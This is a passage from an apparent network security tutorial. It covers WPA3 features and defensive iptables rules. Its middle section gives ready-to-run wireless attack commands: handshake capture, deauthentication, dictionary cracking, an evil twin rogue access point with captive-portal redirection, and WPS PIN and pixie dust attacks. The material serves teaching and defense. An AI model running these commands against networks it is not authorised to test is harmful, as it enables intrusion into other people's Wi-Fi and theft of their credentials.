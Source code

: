 **WPA3 (Latest standard):**
- Simultaneous Authentication of Equals (SAE)
- Forward secrecy
- Stronger encryption (GCMP-256)
- Protection against offline attacks

**2. Wireless Attack Techniques**

**Wardriving and Site Survey:**
```bash
# Wireless network discovery
iwlist scan
airodump-ng wlan0

# GPS mapping with Kismet
kismet -t "GPS enabled survey"
```

**WPA/WPA2 Attacks:**
```bash
# Handshake capture
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0

# Deauthentication attack
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0

# Dictionary attack
aircrack-ng -w wordlist.txt capture-01.cap
```

**Evil Twin Attacks:**
```bash
# Create rogue access point
hostapd rogue_ap.conf

# Captive portal setup
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:8080
```

**WPS Attacks:**
```bash
# WPS PIN attack
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -vv

# Pixie dust attack
reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -K
```

### Network Defense Strategies

#### Firewall Technologies

**1. Packet Filtering Firewalls**

**Stateless Filtering:**
```bash
# iptables examples
# Allow HTTP traffic
iptables -A INPUT -p tcp --dport 80 -j ACCEPT

# Block specific source
iptables -A INPUT -s 192.168.1.100 -j DROP

# Allow established connections
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
```
